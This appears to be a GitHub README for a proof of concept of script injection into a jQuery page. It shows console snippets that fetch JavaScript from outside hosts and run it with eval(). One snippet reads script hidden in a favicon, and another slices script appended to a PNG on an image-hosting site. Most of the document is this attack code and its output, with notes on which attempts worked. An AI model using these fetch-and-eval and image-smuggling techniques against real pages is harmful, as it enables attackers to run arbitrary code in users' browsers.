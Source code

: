 # xss-injection-test

This project is a prof-of-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget

We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The goal is to inject the code of this file on the page:

https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js


# First try (Brave)

we execute in console:

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:

```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```javascript
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();

function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result

## Third try. Import as text, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

in this case we get the console message:

```
owned
```

This method works event wiouth creating the META tag!

## Fourth try. Import as image, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/favicon.ico?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

javascript code is executed

## Fitht test. Javascript appened to a PNG image located in an image host. Works

In this case a piece of JsvsScript code is attached to a legit PNG file

```
    // Execute call to download external script
    $.ajax({
      url: "https://i.ibb.co/9ZtQ16B/icon.png?" + new Date().getTime(),
      success: function (data) {
        // extract the plain text from the end of the image
        let myscript = data.slice(22505);
        // Execute it
        eval(myscript);
      },
    });
```
